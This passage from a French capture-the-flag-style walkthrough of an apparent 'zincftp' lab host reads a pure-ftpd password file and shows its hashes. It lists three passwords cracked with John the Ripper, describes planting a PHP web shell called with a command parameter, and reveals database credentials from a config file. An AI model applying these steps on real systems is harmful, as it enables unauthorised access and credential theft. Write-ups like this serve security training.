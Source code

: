 Pas terrible ! Heureusement je me suis rapellé du fichier mentionné dans le `todo` : `/etc/pure-ftpd/pureftpd.passwd`

```
cmahong:$1$vUW5q3t0$9RZSkReNoWGCaPtL7ixLX0:1031:2002::/home/cmahong/./::::::::::::
lnickerbacher:$1$yiEZKCE0$BOuvM8nrfoNGWAcjPenpa.:1031:2002::/home/lnickerbacher/./::::::::::::
jstreet:$1$sBGmOuB0$TPHx0jBSFjtJu7dJXb4Nw/:1031:2002::/home/jstreet/./::::::::::::
rwoo:$1$VZxDrE30$p7NPDTkxuQhPSsLpi2a1H1:1031:2002::/home/rwoo/./::::::::::::
cfinnerly:$1$dRGyIOy0$OVGBtLHyxFjPg7tmxtvHY/:1031:2002::/home/cfinnerly/./::::::::::::
kmccallum:$1$dijBzwn0$qlGcbcTT0Qyg8wQf4.QiG1:1031:2002::/home/kmccallum/./::::::::::::
cjalong:$1$FVj4if60$BWSIDiE97oTKUs70qOjZx/:1031:2002::/home/cjalong/./::::::::::::
jsmith:$1$yQKaOpR0$UdySwRtPd1upTckQ5/.CM/:1031:2002::/home/jsmith/./::::::::::::
lsanderson:$1$gzIP52U0$cL6XE61yDZD0unvIIkV8l/:1031:2002::/home/lsanderson/./::::::::::::
dhammond:$1$yK9OuzZ0$W7mgvS4SisxP1BwdLsuy1/:1031:2002::/home/dhammond/./::::::::::::
hmcknight:$1$A07SpdB0$hs/m8KyoJyY3gVAhlWDQI/:1031:2002::/home/hmcknight/./::::::::::::
lwestre:$1$.R5Dbl60$n2ajoJce/LnPVCq497sUQ.:1031:2002::/home/lwestre/./::::::::::::
gwelch:$1$/uYT22Y0$njR3vmLQrbnAugwkNLgJ5/:1031:2002::/home/gwelch/./::::::::::::
dmoran:$1$JZrJXdU0$ORe5.yRgQHCQl6h14rEEe.:1031:2002::/home/dmoran/./::::::::::::
dsummers:$1$VXo3pWp0$v0J7NsxRhDy/ufU01P/ch1:1031:2002::/home/dsummers/./::::::::::::
bzimmerman:$1$rQep6B90$ZtnoFZpTEBkNoRCfqJRpe/:1031:2002::/home/bzimmerman/./::::::::::::
amckinley:$1$45Bz0af0$Fsfo.XXcLkVzSaH5bLjzI0:1031:2002::/home/amckinley/./::::::::::::
ncobol:$1$q.xxgp70$645DFncdOFc24n93la5a70:1031:2002::/home/ncobol/./::::::::::::
ddypsky:$1$ccUhlpJ0$PO/WATKUekwaPct4zXeV9.:1031:2002::/home/ddypsky/./::::::::::::
rcropper:$1$Qhw2Vff0$QDvQMEe9CGFwVrvVUPqTz0:1031:2002::/home/rcropper/./::::::::::::
ddonnovan:$1$1z2APl80$uAyYFZLPu/WRkkpegD3Ht.:1031:2002::/home/ddonnovan/./::::::::::::
cbergey:$1$MOwY3Ie0$LcgARpcVk8Hf8n.E7itC40:1031:2002::/home/cbergey/./::::::::::::
tmartin:$1$3jpH7Yk0$2XmRv6acGEkBjmNQeyzUz.:1031:2002::/home/tmartin/./::::::::::::
jgacy:$1$b.0bYDi0$sSMXaRDSZu8YvWVz.wfCo0:1031:2002::/home/jgacy/./::::::::::::
splath:$1$jbdcsaj0$7uaXto3yRZWwDp5VEbJQV/:1031:2002::/home/splath/./::::::::::::
skrymple:$1$zjyNa1C0$x2JA4Tm61q3N0Fq06gXun1:1031:2002::/home/skrymple/./::::::::::::
evorhees:$1$ITHWZZd0$Qhs38Q7QpRTe./Npk25hu/:1031:2002::/home/evorhees/./::::::::::::
rfrost:$1$3Nqexaj0$eJv5nfOYM71jvlTEA1iv..:1031:2002::/home/rfrost/./::::::::::::
ahuxley:$1$ObpCAT60$LTqCcrqMGAgv8YMyva5Sr0:1031:2002::/home/ahuxley/./::::::::::::
cmanson:$1$gMHNCq70$RCOXC8pfElSRvh5BFc5fF0:1031:2002::/home/cmanson/./::::::::::::
webmaster:$1$v2tdHOX0$MnLOX4cXqZYL99QbDDZ/1/:1031:2002::/var/www/./::::::::::::
```

JohnTheRipper permet d'en casser trois :

```
millionaire      (tmartin)     
bravenewworld    (ahuxley)     
chatterbox1      (cbergey)
```

Ces identifiants ne permettent pas de se connecter en SSH mais je peux me connecter via SSH et déposer un shell PHP dans le dossier `web` de l'utilisateur. Et hop on est parti :

http://ahuxley.zincftp.com/shell.php?cmd=uname%20-a

Je remarque des identifiants différents entre l'hôte par défaut (`/var/www/htdocs/dbconn.php`) :

```php
<?php
        $db_host = 'localhost';
        $db_user = 'phpadmin';
        $db_pass = 'userPasswd421';
        $db_name = 'zincftp_data';
        $conn = mysql_connect($db_host, $db_user, $db_pass) or die("Unable to connect to MySQL");
        mysql_select_db($db_name,$conn) or die("Could not select Database");
?>
```
